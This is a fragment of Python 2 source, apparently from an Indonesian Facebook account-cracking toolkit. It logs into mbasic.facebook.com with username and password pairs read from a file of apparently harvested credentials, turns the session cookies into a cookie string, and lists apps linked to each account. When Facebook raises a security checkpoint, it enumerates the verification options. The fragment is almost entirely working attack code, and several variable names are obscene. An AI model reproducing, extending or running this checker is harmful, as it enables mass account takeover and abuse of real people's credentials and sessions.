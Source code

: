 	fm = ged.find("form",{"method":"post"})
	list = ["lsd","jazoest","m_ts","li","try_number","unrecognized_tries","login","bi_xrwh"]
	for i in fm.find_all("input"):
		if i.get("name") in list:
			data.update({i.get("name"):i.get("value")})
		else:
			continue
	data.update({"email":user,"pass":pasw})
	run = parser(ses.post(mb+fm.get("action"), data=data, allow_redirects=True).text, "html.parser")
	if "c_user" in ses.cookies:
		kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
		run = parser(ses.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active", cookies={"cookie":kuki}).text, "html.parser")
		xe = [re.findall("\<span.*?href=\".*?\">(.*?)<\/a><\/span>.*?\<div class=\".*?\">(.*?)<\/div>", str(td)) for td in run.find_all("td", {"aria-hidden":"false"})][2:]
		print("\033[0;93m\033[0;97m [\033[1;33m•\033[1;37m] Akun Yang Mungkin Terkait Dengan Facebook : %s"%(str(len(xe))))
		num = 0
		for _ in xe:
			num += 1
			print("  "+str(num)+" "+_[0][0]+", "+_[0][1])
	elif "checkpoint" in ses.cookies:
		form = run.find("form")
		dtsg = form.find("input",{"name":"fb_dtsg"})["value"]
		jzst = form.find("input",{"name":"jazoest"})["value"]
		nh   = form.find("input",{"name":"nh"})["value"]
		dataD = {"fb_dtsg": dtsg,"fb_dtsg": dtsg,"jazoest": jzst,"jazoest": jzst,"checkpoint_data":"","submit[Continue]":"Lanjutkan","nh": nh}
		xnxx = parser(ses.post(mb+form["action"], data=dataD).text, "html.parser")
		ngew = [yy.text for yy in xnxx.find_all("option")]
		print("\033[0;93m\033[0;97m [\033[1;33m•\033[1;37m] Total Opsi Yang Tersedia  "+str(len(ngew)))
		for opt in range(len(ngew)):
			print(" [\033[1;33m"+str(opt+1)+"\033[1;37m] "+ngew[opt])
	elif "login_error" in str(run):
		oh = run.find("div",{"id":"login_error"}).find("div").text
		print("%s[%s!%s] %s"%(p,m,p,oh))
	else:
		print("%s [%s!%s] Error Login Failed!\n"%(p,m,p))


#+#+#+#+#+#+#+#+#+#+#+#+#+##++##+#+#+#+#+#+#+#+#+#++#+#

def cek_opsi_sesi():
	files = raw_input("\n %s[%s•%s] Cheking optional account \n %s[%s•%s] Files: "%(p,k,p,p,k,p))
	try:
		buka_baju = open(files, "r").readlines()
	except IOError:
		exit("\n%s [%s!%s] Files %s%s%s Not found!"%(p,m,p,h,files,p))
	for memek in buka_baju:
		kontol = memek.replace("\n","")
		titid  = kontol.split(" | ")
		print("\n\033[0;93m\033[0;97m [\033[1;33m•\033[1;37m] Account : "+(kontol.replace(" + ","")))
		try:
			profcheck(titid[0].replace(" + ",""), titid[1])
		except requests.exceptions.ConnectionError:
			pass
	os.remove('cp.txt')
	exit("\n%s [%s✓%s] Done"%(p,h,p))
	